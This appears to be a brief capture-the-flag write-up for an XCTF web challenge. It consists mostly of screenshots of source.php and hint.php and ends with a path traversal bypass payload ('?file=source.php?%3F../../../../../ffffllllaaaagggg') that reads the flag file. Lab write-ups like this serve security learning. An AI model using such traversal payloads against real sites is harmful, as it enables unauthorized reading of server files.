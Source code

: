 Challenge: https://adworld.xctf.org.cn/task/answer?type=web&number=3&grade=1&id=5442&page=1

. view source

<img width="782" alt="Not Secure  111 200 241 24465197" src="https://user-images.githubusercontent.com/48151790/126885857-2fb24110-ba27-4335-a642-de685a475239.png">

. source.php

<img width="664" alt="Not Secure  111 200 241 24465197source php" src="https://user-images.githubusercontent.com/48151790/126885863-50e1e428-daeb-41e4-84a6-7f463e45d264.png">

. hint.php

<img width="596" alt="Not Secure  111 200 241 24465197hint php" src="https://user-images.githubusercontent.com/48151790/126885866-4e35f948-c26d-4dea-ab1d-cbd9d8b8a0df.png">

=> Maybe Path traversal???

=> ../../ffffllllaaaagggg

=> bypass: ?file=source.php?%3F../../../../../ffffllllaaaagggg

<img width="810" alt="Screen Shot 2021-07-22 at 21 31 39" src="https://user-images.githubusercontent.com/48151790/126885891-5fdf872b-0851-49ca-bc14-f7115d91a384.png">
